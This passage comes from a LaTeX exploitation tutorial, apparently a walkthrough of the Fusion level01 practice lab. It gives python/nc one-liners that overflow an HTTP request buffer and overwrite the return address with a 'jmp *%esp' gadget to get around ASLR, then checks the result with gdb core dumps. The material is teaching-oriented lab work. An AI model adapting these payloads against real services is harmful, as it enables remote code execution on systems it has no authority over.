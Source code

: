\begin{lstlisting}
fusion@fusion:~$ sudo rm /core; python -c 'print "GET " + "A"*139 + "\x4f\x9f\x04\x08" + "\xcc\xcc\xcc\xcc" +  " HTTP/1.1" + "\xcc"*2' | nc localhost 20001
fusion@fusion:~$ sudo gdb -q --core /core
[New LWP 1294]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbf8d19e1 in ?? ()
(gdb) i r esp
esp            0xbf8d19e0       0xbf8d19e0
(gdb) x/4x $eip-5
0xbf8d19dc:     0x08049f4f      0xcccccccc      0x00000000      0x00000004
\end{lstlisting}

Excellent, it worked! We can see in the coredump that we
were killed on one of our breakpoint traps \texttt{0xcc},
and from comparing \texttt{eip} with \texttt{esp}, we
know that clobbering the return address with the address
of the \texttt{jmp *\%esp} instruction we found worked. Using
\texttt{x}, we view the memory around \texttt{eip}, seeing
our 4 breakpoint traps, and the overwritten return address.

So, now we can reliably jump to instructions we control again.
Because we initially wanted to get our old exploit working for
the new case of ASLR, let's add as little as possible to our
existing exploit. Since the bytes we can jump to using
this \texttt{jmp *\%esp} instruction are part of a string
which is supposed to represent a filename, we should
(theoretically) be careful about what bytes we use. This
worked because \texttt{0xcc} is also the printable character ``Ì",
and luckily enough, the \texttt{jmp *\%esi} instruction we
wanted in the first place also assembles to printable characters
``ÿä". So, if we simply place a \texttt{jmp *\%esi} instruction
after our return address, we should jump back to our original shellcode
location after the ``HTTP/1.1".

\begin{lstlisting}
fusion@fusion:~$ sudo rm /core; python -c 'print "GET " + "A"*139 + "\x4f\x9f\x04\x08" + "\xff\xe6" +  " HTTP/1.1" + "\xcc"*2 + "\xf0"*2' | nc localhost 20001
fusion@fusion:~$ sudo gdb -q --core /core
[New LWP 1563]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 5, Trace/breakpoint trap.
#0  0xbf8d1a97 in ?? ()
(gdb) i r esi
esi            0xbf8d1a96       -1081271658
(gdb) x/4b $eip-1
0xbf8d1a96:     0xcc    0xcc    0xf0    0xf0
\end{lstlisting}

Success! we place the opcode for \texttt{jmp *\%esi} immediately
after our return address. We return to the \texttt{jmp *\%esp}
instruction discovered earlier.

